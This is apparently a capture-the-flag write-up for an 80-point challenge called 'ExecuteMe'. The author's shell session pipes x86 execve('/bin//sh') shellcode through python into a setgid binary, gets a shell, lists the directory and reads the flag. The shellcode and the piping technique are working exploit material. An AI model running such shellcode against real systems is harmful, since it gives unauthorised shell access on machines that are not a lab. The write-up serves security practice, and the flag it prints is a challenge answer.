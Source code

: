# ExecuteMe - 80

```
This program will run whatever you send to it! 
Try to get the flag! The binary can be found at /home/execute/ on the shell server. 
The source can be found here.
```

Later, I found out that giving the shellcode directly does not work because it does not understnad the hex right. 
I had to use print instead to pipe it into the execute.

```
pico15664@shell:/home/execute$ file execute
execute: setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=d16192a7ec6042bae92a729790cb5fd22d7f0d3d, not stripped
pico15664@shell:/home/execute$ ./execute
\x6a\x17\x58\x31\xdb\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
	
pico15664@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'") | ./execute

pico15664@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'";ls) | ./execute

pico15664@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'";cat ) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

```
Flag:shellcode_is_kinda_cool
```

